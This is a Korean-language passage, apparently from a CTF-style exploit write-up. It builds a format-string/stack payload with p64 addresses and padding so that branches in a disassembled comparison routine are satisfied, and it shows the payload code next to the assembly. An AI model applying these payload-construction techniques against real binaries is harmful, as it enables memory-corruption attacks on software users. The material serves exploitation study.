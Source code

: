 그러면 현재 페이로드는 다음과 같습니다.

```
(assume that payload already had '%13$@ZZZ')
payload = p64(stack_addr) + "A"*8             # rbx = &payload
payload += "B" * 0x30
payload += p64(stack_addr+0x50) + "C"*8       # rdx = [rbx+0x40]
payload += p64(stack_addr+0x50) + "D"*8       # rdx = &payload + 0x50
payload += "E" * 0x10
paylaod += "F" * 8
payload += p64(0)                             # cond_1 : [rdx+0x28]
```

그 다음 비교 루틴을 따라 가보면 다음과 같습니다.

```
/---jb    10CC0
|
| (FALSE) jmp if r8 < [rdx + 0x28] - cond_1 < 0x70
|
\-->mov   rax, [rdx+8]
    mov   rax, [rax] 		
/---jmp   10CAB
|
|	### 10CC0:
|	mov     r8, [rdx]
|	mov     eax, eax
|	mov     rax, [r8+rax*8]
|	mov     rax, [rax+rcx*8]
|
\-->### 10CAB  ; [*] <-- HERE
	test    rax, rax
/---je    short 10CE0
|
| (TRUE) jmp if rax == 0: cond_2
|
\-->### 10CE0:
```

이 분기에서는 `True`를 만들어 주어야 합니다. 그러면 `rax`가 0 이여야 하는데 `rax`는 `*[rdx+8]`이 됩니다. 이 포인터 값 역시 우리가 원하는 값으로 만들 수 있기 때문에 이 조건을 만들어 줍니다. 이번에도 넉넉히 페이로드를 쓰기위에 뒤쪽에 배치 했습니다.

```
(assume that payload already had '%13$@ZZZ')
payload = p64(stack_addr) + "A"*8             # rbx = &payload
payload += "B" * 0x30
payload += p64(stack_addr+0x50) + "C"*8
payload += p64(stack_addr+0x50)               # rdx = &payload + 0x50
payload += p64(stack_addr+0x50+0x30)          # [rdx+8] : for cond_2
payload += "E" * 0x10
paylaod += "F" * 8
payload += p64(0)                             # cond_1 : [rdx+0x28]
payload += p64(0)                             # *[rdx+8] point here for cond_2
```
